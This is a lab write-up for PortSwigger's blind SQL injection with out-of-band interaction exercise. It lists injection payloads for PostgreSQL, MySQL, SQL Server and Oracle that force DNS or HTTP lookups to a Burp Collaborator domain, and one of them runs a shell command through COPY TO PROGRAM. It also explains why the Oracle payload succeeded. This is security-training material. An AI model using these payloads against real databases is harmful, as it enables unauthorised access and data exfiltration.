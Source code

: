 # Blind SQL injection with out-of-band interaction

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## Definition
Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to Burp Suite Professional with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

This will cause the database to perform a lookup for the following domain:
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

**Confirming Vulnerability**  
To start, it is necessary to identify which DBMS is running in the system backend to confirm the vulnerability truly exists and exploit them. Assuming that what is described in the lab description is true, there is no way to achieve this without a trial and error approach, using the out-of-band communication technique to get these answers.

Below there are all payload attempts to identify and the DBMS doing out-of-band communication. It was tried from the most to the least popular (IMHO):

PostgreSQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; COPY (SELECT '') TO PROGRAM 'nslookup abc.burpcollaborator.net'--
```

MySQL (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U' OR (SELECT LOAD_FILE(concat(‘\\\\’, 'abc', '.burpcollaborator.net\\')))-- 
```

SQL Server (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'; exec master..xp_dirtree '//abc.burpcollaborator.net/a' 
```

Oracle (didn't work)
```sql
...'kzkJFv1M3CN3Aq4U'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```

After trying payloads of all DBMS and some variations of them, I looked at the lab solution (no shame at all), and to my surprise, the solution provided was very similar to the one that I used for Oracle DBMS. They used `Union Select` instead of `OR in a where clause`. So the question is, why mine didn't work?

So, I tried another change in my previous Oracle payload as shown below. I switch the "OR" statement to the "AND" and It worked! Why? The answer is simple: logic (or the lack of it in this case).

Oracle (worked)
```sql
...'kzkJFv1M3CN3Aq4U'+AND+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```

![Lab Solution](images/image01.png)
![Lab Solved](images/image02.png)

It worked this time due to the logical operation in the where clause. In the previous attempt the first criteria `trackingId=kzkJFv1M3CN3Aq4U` is always evaluated to true so there's no need to check the second criteria because the statement used was OR not AND. For that reason, the DNS lookup was never triggered. To prove this idea, I changed the trackingId to an invalid value and used the OR operator in the payload and it worked as well.

```sql
...'kzkJFv1M3CN3Aq4U****'+OR+(Select+EXTRACTVALUE(xmltype('<?xml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://abc.burpcollaborator.net">%25remote%3b]>'),'/l')+From+Dual)+IS+NULL--
```


## Key Words
> sql injection, blind, oracle, out-of-band, oast, dns